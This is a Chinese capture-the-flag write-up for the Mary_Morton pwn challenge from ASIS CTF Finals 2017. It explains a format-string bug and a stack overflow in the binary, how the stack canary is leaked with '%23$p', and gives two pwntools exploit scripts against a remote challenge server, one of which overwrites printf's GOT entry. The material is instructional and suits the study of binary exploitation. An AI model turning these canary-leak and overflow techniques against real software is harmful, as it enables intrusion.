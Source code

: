 ## XMan pwn Mary_Morton 格式化字符串泄露/canary/栈溢出

### 从格式化字符串泄露canary到栈溢出

**格式化字符串泄露学习：https://www.cnblogs.com/ichunqiu/p/9329387.html**


以ASIS-CTF-Finals-2017 Mary_Morton为例

checksec查看，开了NX保护，还有canary

![img](http://www.pianshen.com/images/492/ffc43615723233dff7dcfa50deb3aadc.png)

IDA打开

```cpp
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3){  const char *v3; // rdi  int v4; // [rsp+24h] [rbp-Ch]  
unsigned __int64 v5; // [rsp+28h] [rbp-8h]   
v5 = __readfsqword(0x28u);  
sub_4009FF();  
puts("Welcome to the battle ! ");  
puts("[Great Fairy] level pwned ");  
v3 = "Select your weapon ";  
puts("Select your weapon ");  
while ( 1 )  {    
	while ( 1 ){      
		sub_4009DA(v3);     
    	v3 = "%d";      
    	__isoc99_scanf("%d", &v4);     
    		if ( v4 != 2 )       
    			break;     
    	sub_4008EB();   
    }   
    if ( v4 == 3 )
    {      
    	puts("Bye ");     
    	exit(0);  
    }    
    if ( v4 == 1 )
    {    
    	sub_400960();    
    }else
    {    
    	v3 = "Wrong!";      
    	puts("Wrong!");   
    }  
  }
} 
    
int sub_4009DA(){  
    puts("1. Stack Bufferoverflow Bug ");  
    puts("2. Format String Bug "); 
    return puts("3. Exit the battle ");
}
```

发现输入2 进入的函数中有格式化字符串洞

```cpp
unsigned __int64 sub_4008EB(){  
    char buf; // [rsp+0h] [rbp-90h]  
    unsigned __int64 v2; // [rsp+88h] [rbp-8h]   
    v2 = __readfsqword(0x28u);  
    memset(&buf, 0, 0x80uLL);  
    read(0, &buf, 0x7FuLL);  
    printf(&buf, &buf);  
    return __readfsqword(0x28u) ^ v2;
}
```

 

输入1 进入的函数中有栈溢出漏洞

```cpp
unsigned __int64 sub_400960(){  
    char buf; // [rsp+0h] [rbp-90h]  
    unsigned __int64 v2; // [rsp+88h] [rbp-8h]   
    v2 = __readfsqword(0x28u);  
    memset(&buf, 0, 0x80uLL);  
    read(0, &buf, 0x100uLL);  
    printf("-> %s\n", &buf);  
    return __readfsqword(0x28u) ^ v2;
}
```

 不能直接覆盖溢出，因为有canary在会比较函数执行前后一不一样，不一样就会崩，所以需要泄露canary填回去。

**这个题有两种做法**

**方法一:通过格式化字符串漏洞泄露canary,然后利用栈溢出漏洞执行cat flag函数**

canary在入栈后，会清空eax中的数据

​           ![img](http://www.pianshen.com/images/176/7ee529dbcc9f60077493a562aad939a0.png)

​            而在一个函数执行完之后，canary的值会被再取出来，和现在的canary的值比较

​            ![img](http://www.pianshen.com/images/380/d59e32e2f005cc15319857b18c44d084.png)

​        

#### print函数格式化字符串漏洞

1. 当我们输入printf可识别的格式化字符串时，printf会将其作为格式化字符串进行解析并输出。原理很简单，形如printf(“%s”,“Hello world”)的使用形式会把第一个参数%s作为格式化字符串参数进行解析，在这里由于我们直接用printf输出一个变量，当变量也正好是格式化字符串时，自然就会被printf解析
2. 格式化字符串里有%s，用于输出字符。其本质上是读取对应的参数，并作为指针解析，获取到对应地址的字符串输出。由于此时我们可以通过输入来操控栈，我们可以输入一个地址，再让%s正好对应到这个地址，从而输出地址指向的字符串，实现任意地址读。

3. 64位程序，64位的传参顺序是rdi, rsi, rdx, rcx, r8, r9，接下来才是栈，栈上的参数对printf函数来说首先就有6个参数的偏移量

确定canary和输入的参数参数之间的偏移

(1).由IDA中可看出，canary与buf之间距离0x88(136)个字节，因为是64位，以8 个字节为一个        单位，136/8=17，那么canary距离格式化字符串函数23（17+6）个参数的距离

char buf; // [rsp+0h] [rbp-90h]

  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

 (2)也可以用GDB来查看

​    ![img](http://www.pianshen.com/images/153/c238a9d49466766204f0a377a93728f1.png)

   查看栈中内容，计算canary和输入数据的偏移7FFFFFFFE058-7fffffffdfd0=0x88

​    ![img](http://www.pianshen.com/images/240/6328abb96ff853f01f67db4e0fed8160.png)

**编写exp**

```python
from pwn import*
from time import*
io=remote('111.198.29.45','53689')
system_addr=p64(0x4008de)
io.sendlineafter('3. Exit the battle \n','2')
#io.recv()
io.sendline('%23$p')
io.recvuntil('0x')
ss=io.recv(16)
pp=int(ss,16)
pp=p64(pp)
io.sendlineafter('3. Exit the battle \n','1')
p='a'*17*8+pp+'a'*8+system_addr
io.sendline(p)
print io.recv()
print io.recv()
```

![img](http://www.pianshen.com/images/651/d3761345952b45e121425432a4f7f923.png)

**方法二：通过格式化字符串洞覆盖函数地址，执行 catflag函数**

确定可控输入时格式化字符串的第6个参数

![img](http://www.pianshen.com/images/851/c323cf81ffbfa3436b6946abe158912b.png)

使用python第三方库formatStringExploiter  更多详细信息：https://formatstringexploiter.readthedocs.io/en/latest/formatStringExploiter.html

![img](http://www.pianshen.com/images/308/583717b2332491c0b108bcd91acad25c.png)

先定义connect函数用来连接程序，定义exec_fmt实现payload的发送

 **编写利用exp**

```python
from pwn import *
from time import sleep
from formatStringExploiter.FormatString import FormatString 
elf = ELF('./mary_morton')
flag_addr = 0x04008DA
print_addr = elf.got['printf'] 
def connect():    
    global sh   
    sh = remote('111.198.29.45',30559)   
    sh.recvuntil('battle \n')
def exec_fmt(s):    
    sh.sendline('2')    
    sleep(0.1)    
    sh.sendline(s)    
    ret = sh.recvuntil('1. Stack Bufferoverflow', drop=True)    
    sh.recvuntil('battle \n')    
    return ret connect()payload = FormatString(exec_fmt,elf=elf,index=6,pad=0,explore_stack=False)
payload.write_q(print_addr,flag_addr)
sh.sendline("1")
sh.sendline("1")
sh.interactive()
```

![img](http://www.pianshen.com/images/388/0c59e9095c29cdbb0ee855596f289fdc.png)

推荐阅读：[https://veritas501.space/2017/04/28/%E8%AE%BAcanary%E7%9A%84%E5%87%A0%E7%A7%8D%E7%8E%A9%E6%B3%95/](https://veritas501.space/2017/04/28/论canary的几种玩法/)



